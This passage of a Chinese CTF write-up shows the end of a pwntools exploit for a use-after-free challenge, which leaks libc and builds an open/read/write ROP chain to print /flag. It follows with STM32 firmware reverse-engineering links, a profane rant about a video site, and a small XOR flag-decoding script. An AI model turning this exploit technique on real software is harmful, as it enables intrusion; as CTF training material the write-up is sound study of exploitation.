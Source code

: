 ```python
show()                        # UAF trigger: 0x603340 -> func ptr(bss_addr:0x603360) -> run add_rsp_0x28
########################################################################################################

io.recv() 
libc.address = uu64(io.recv(6))-0x6a7f0
log.success(hex(libc.address))

pop_rdx_ret = libc.address + 0x1b92
pop_rsi_ret = libc.address + 0x202f8

rop2 = flat([
    pop_rdi_ret, 0, pop_rsi_ret, bss_addr, pop_rdx_ret, 8  , libc.symbols['read']  ,
    pop_rdi_ret, 0, pop_rsi_ret, bss_addr, pop_rdx_ret, 0  , libc.symbols['openat'],
    pop_rdi_ret, 3, pop_rsi_ret, bss_addr, pop_rdx_ret, 100, libc.symbols['read']  ,
    pop_rdi_ret, 1, pop_rsi_ret, bss_addr, pop_rdx_ret, 100, libc.symbols['write'] ,
])


############################################## attack 2 ################################################
io.send(rop2);sleep(0.1)
io.sendline("/flag\x00")
io.interactive()
########################################################################################################
```

## 固件安全

其他AK固件的WP找到一份：[lxonz: 2021HWS冬令营线上赛固件安全WriteUp](https://nosec.org/home/detail/4672.html)

### STM

> STM32:arm:firmware

STM32固件逆向，给出用IDA分析STM32的方法：[SCTF 2020 Password Lock Plus 入门STM32逆向](https://xuanxuanblingbling.github.io/iot/2020/07/08/stm32/)，IDA分析视频如下：

<iframe src="https://www.youtube.com/embed/ST3u7DMkU1I" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" width="100%" height="600" > </iframe>

> B站的外链不让用`high_quality=1`调整视频为高清了，妈的你他妈差那点流量么？我可以付费，但是你没有这个业务啊，真是好小家子气。老子去用youtube，用了一下发现真他妈舒服，发布时无审核，外链可以高清，开头没广告。国内的生态是真他妈垃圾，还各种网络不通，整点啥都贼费劲，以下为youtube外链，自行解决观看办法。

> B站备用：[使用IDA分析STM32固件](https://www.bilibili.com/video/BV1LX4y157TP/)

解题代码：

```python
a = [   
        0x7D,0x77,0x40,0x7A,0x66,0x30,0x2A,0x2F,
        0x28,0x40,0x7E,0x30,0x33,0x34,0x2C,0x2E,
        0x2B,0x28,0x34,0x30,0x30,0x7C,0x41,0x34,
        0x28,0x33,0x7E,0x30,0x34,0x33,0x33,0x30,
        0x7E,0x2F,0x31,0x2A,0x41,0x7F,0x2F,0x28,
        0x2E,0x64
    ]

flag = ""
for i in a:
    flag += chr((i ^ 0x1E) + 3)
print(flag)
```
